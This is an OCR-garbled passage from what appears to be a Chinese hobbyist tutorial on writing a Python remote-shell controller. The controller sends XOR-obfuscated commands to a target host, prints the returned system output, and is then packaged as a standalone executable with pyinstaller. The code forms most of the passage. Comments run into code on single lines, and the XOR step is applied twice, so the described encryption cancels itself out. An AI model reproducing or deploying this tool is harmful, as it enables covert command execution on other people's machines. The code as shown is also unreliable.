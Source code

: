 ##### addr 得到一个元组，值分别是 ip 和端口，类型为元组

addr = (Host,Port);

##### 初始化对象，设置的参数都是默认的

c_sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM);

##### 设置控制循环的值

status = True;  
try:

```
#调用connect方法连接目标地址和端口c_sock.connect(addr);
```

except:

```
#如果连接失败，就执行这部分print('%s 链接出问题了'%(Host));#将控制循环的值改为Falsestatus = False;
```

#### 连接成功了执行

while status:

```
#获取要发给服务端的命令value = input('[%s] Shell > '%(Host));#将获取到的值用bytearray转换为一个字节数组，编码格式为utf-8,返回值就是  b'你的字符串'encode = bytearray(value,'utf-8');#使用len判断数组的长度，作为循环终值，因为是从0开始小于最大值，所以刚刚好for i in range(len(encode)):    #将数组的元素进行异或加密，然后在给数组，下面的相等encode[i] = encode[i] ^ 0x41;    #异或（^）会将对比的两个参数转换为二进制，然后相同为0,相异为1,在将结果转会字符串    #原理就是先转换为二进制，比如下面的，如果位数一样就是0,不一样就是1，此处用来进行加密我们发送的数据    #60 = 0011 1100    #13 = 0000 1101    #   = 0011 0001    encode[i] ^= 0x41;#如果value得值是空的就取反为真，如果不为空就取反未假#简单来说就是如果没输入东西就执行，跳过这次循环从新让你输入if not value:    continue;#如果try范围内的代码出现异常什么的就终止，然后执行except中的代码try:    #将数据发送过去    c_sock.send(encode);    #判断输入的值是否为quit，如果是就结束for循环    if value == 'quit' or value == 'exit':        break;    #使用recv方法接收TCP数据，最大接收数据量为10000    data = c_sock.recv(10000);    #将接收的数据，使用bytearray方法转换为一个字节数组，不需要参数uft-8，因为传过来的就是，加了反而有问题    ceshi = bytearray(data)    #进行一个循环解密，将收到的数据再次进行异或运算，从而还原明文    for i in range(len(ceshi)):        ceshi[i] ^= 0x41    #输出数据，并使用decode方法来将数据解码为字符串    print('%s OS : \n'%(Host),ceshi.decode());#出现异常就这行这部分except:    print('%s 断开了连接'%(Host));    #结束循环    break;
```

#### 关闭连接

c_sock.close();

0x03: 进阶思路
==========

这样一个简单的服务端和客户端就完成了，可是这种只能在装有 python 的环境下运行很不方便，

所以我们使用 pyinstaller 将他们编译成可执行文件，pyinstaller 非常方便，而且跨平台，

但是你在 linux 下编译出来的就是 linux 的，要 exe 的话要去 wind 下编译  

pyinstaller 命令有几个好用的参数，

这里介绍几个，如果感兴趣的可以自行了解一下，因为是菜鸡新手，

所以就用 - F 即可 -F 产生单个的可执行文件，也就是值有一个可执行文件，没有其他文件夹啥的
